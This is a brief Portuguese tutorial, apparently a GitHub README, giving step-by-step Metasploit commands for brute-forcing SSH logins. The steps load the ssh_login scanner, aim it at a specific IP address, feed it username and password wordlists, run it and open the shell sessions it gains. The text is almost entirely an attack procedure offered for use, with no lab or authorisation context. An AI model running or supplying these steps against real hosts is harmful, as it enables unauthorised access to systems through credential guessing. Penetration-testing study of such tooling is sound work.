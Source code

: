 # Explorando Falhas SSH com Metasploit

## Pré-requisitos

- Acesso root/sudo
- Metasploit Framework instalado(Já tem por padrão no kali linux)
- Arquivos de wordlist (usuários e senhas)

## Passo a Passo

1. Obter privilégios sudo:
   `sudo su`

2. Iniciar Metasploit:
   `msfconsole`

3. Buscar módulo SSH:
   `search ssh_login`

4. Carregar módulo auxiliar:
   `use auxiliary/scanner/ssh/ssh_login`

5. Configurar alvo:
   `set RHOSTS 124.123.14.4`

6. Configurar arquivos de wordlist:
   `set USER_FILE /home/kali/user.txt`
   `set PASS_FILE /home/kali/password.txt`

7. Executar exploit:
   `exploit`

8. Gerenciar sessões:

```
    sessions        # Lista todas as sessões
    sessions 1      # Conecta à sessão 1
```

```
- O módulo auxiliary/scanner/ssh/ssh_login requer arquivos de wordlist válidos

- Certifique-se que os arquivos user.txt e password.txt existem no diretório especificado

-A sessão será criada automaticamente se as credenciais forem encontradas
```

- Se todos os passos foram executados corretamente, você estará conectado ao sistema alvo.
